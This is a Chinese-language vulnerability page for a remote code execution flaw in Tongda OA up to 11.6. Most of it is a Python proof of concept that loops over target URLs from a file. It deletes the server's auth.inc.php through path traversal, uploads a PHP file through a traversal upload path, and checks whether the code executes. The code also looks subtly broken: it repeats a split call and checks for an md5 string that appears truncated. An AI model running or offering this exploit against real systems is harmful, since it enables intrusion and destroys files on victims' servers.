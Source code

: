 通达oa 11.6 远程命令执行漏洞
============================

一、漏洞简介
------------

此漏洞会导致网站程序严重损坏，并影响网站业务正常运行，请谨慎使用！

二、漏洞影响
------------

通达oa \<= 11.6

三、复现过程
------------

### poc

    #! /usr/bin/env python3
    # -*- coding: utf-8 -*-
    import requests
    #by Tommy，在原作者上修改而来，2020-8-19，通达OA 0 day漏洞利用
    import sys
    version = sys.version_info
    if version < (3, 0):
        print('The current version is not supported, you need to use python3')
        sys.exit()
        
    def exploit(target):
        try:
            target=target
            payload='<?php echo md5("exp-test"); ?>'#无害检测
            print(target,"[*]删除auth.inc.php...")

            url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"#删除auth.inc.php请求
            requests.get(url=url,verify=False,timeout=10)
            print(target,"[*]正在检查文件是否已删除...")
            url=target+"/inc/auth.inc.php"
            page=requests.get(url=url,verify=False,timeout=10).text
            #print(page)
            if 'No input file specified.' not in page:
                print(target,"[-]无法删除auth.inc.php文件")
                return 0
            print(target,"[+]删除auth.inc.php成功")
            print(target,"[*]开始上传payload...")
            url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
            files = {'FILE1': ('deconf.php', payload)}
            requests.post(url=url,files=files,verify=False,timeout=10)
            url=target+"/_deconf.php"
            page=requests.get(url=url,verify=False,timeout=10).text
            if 'No input file specified.' not in page:
                print("[+]************************文件已存在，上传成功************************")
                if '8a8127bc83b94ad01414a7a3ea4b8' in page:#如果执行过md5函数，才确认漏洞存在，减少误报
                    print(target,"************************代码执行成功，存在漏洞************************")
                    print(target,"[+]URL:",url)
            else:
                print(target,"[-]文件上传失败")
        except Exception as e:
            print(target,e)
    urls='url.txt'
    print("[*]警告：利用此漏洞，会删除auth.inc.php，这可能会损坏OA系统")
    input("按Enter继续")
    for url in open(urls,'r',encoding='utf-8').read().split('\n'):
        url=url.split()
        url=url.split()
        exploit(url[0])
